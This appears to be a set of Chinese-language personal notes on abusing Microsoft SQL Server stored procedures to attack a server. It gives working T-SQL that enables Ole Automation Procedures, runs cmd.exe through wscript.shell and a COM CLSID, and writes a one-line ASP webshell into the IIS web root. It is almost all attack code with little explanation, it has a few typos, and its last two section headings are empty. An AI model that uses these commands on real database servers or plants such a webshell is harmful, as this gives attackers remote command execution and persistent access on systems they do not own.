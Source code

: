 ### 1. 系统存储过程

1. 开启系统存储过程

```mssql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE;
```

![image-20240906184550229](C:/Users/26254/AppData/Roaming/Typora/typora-user-images/image-20240906184550229.png)

2. 调用wscript.shell

   ```mssql
   declare @shell int 
   EXEC sp_oacreate 'wscript.shell',@shell output 
   EXEC sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > c:\\123.txt' 
   ```

   <img src="C:/Users/26254/AppData/Roaming/Typora/typora-user-images/image-20240906184504784.png" alt="image-20240906184504784" style="zoom: 80%;" />

3. 写入Webshell

   ```mssql
   declare @o int,@f int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject', @o out
   EXEC sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
   ```

4. 利用com组件执行命令

   ```mssql
   declare @luan int,@exec int,@text int,@str varchar(8000);
   EXEC sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan outpiut;	//该句柄对应Wscript.Shell
   EXEC sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';
   EXEC sp_oamethod @exec,'stdOut',@text out;
   EXEC sp_oamethod @test,'readall',@str out;
   select @str;
   ```

   

### 2. 本地存储过程

### 3. 扩展存储过程